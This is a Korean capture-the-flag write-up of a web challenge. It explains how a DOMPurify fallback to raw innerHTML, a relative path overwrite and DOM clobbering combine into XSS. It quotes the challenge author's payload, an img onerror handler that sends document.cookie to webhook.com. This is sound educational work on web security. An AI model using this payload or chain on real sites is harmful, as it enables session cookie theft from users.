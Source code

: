 bypass하기 위해 방법을 찾던 중 로드해오는 js 중에 난독화 된 바이너리를 발견했고 복호화한 결과 아래와 같은 코드가 나왔다

```js
if (!title && !content) {
    post_content.innerHTML = "Usage: ?title=a&content=b";
} else {
    try {
        post_title.innerHTML = DOMPurify.sanitize(title);
        post_content.innerHTML = DOMPurify.sanitize(content);
    } catch {
        post_title.innerHTML = title;
        post_content.innerHTML = content;
    }
}
```

오류가 나면 그냥 title이랑 content를 그대로 innerHTML 해서 문제없이 xss가 가능해진다.

dompurify를 상대경로로 불러오고 있기에, `/admin/test/?title=a&content=(XSS_PAYLOAD)`로 Open Redirect해서 RPO 터트려주면 된다.

정리하자면 Case mapping collision + RPO + XSS였다.

```html
<area id="conf"> <area id="conf" name="deleteUrl" href="/admin/test/?title=test&content=<img src=x onerror='location.href=`webhook.com?q=${document.cookie}`'>">
```
- 출제자 payload - 문제시 삭제하겠습니다

주니어부 0솔까지 갈 정도로 어려웠던 문제는 아니었던거 같은데 0솔인건 좀 의문이다

확실히 CSP랑 dompurify에 대한 지식이 거의 없었어서 문제의도 파악이 어려웠던거 같다. 공부해야겠다